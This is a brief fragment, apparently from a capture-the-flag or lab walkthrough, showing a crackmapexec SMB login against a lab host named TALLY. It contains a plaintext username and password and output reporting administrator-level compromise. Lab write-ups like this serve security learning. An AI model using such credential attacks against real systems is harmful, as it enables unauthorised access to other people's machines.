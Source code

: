 ```shell
crackmapexec smb 10.10.10.59 -u Guero -p 'gu3ro123$!'
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\Guero:gu3ro123$! (Pwn3d!)
```

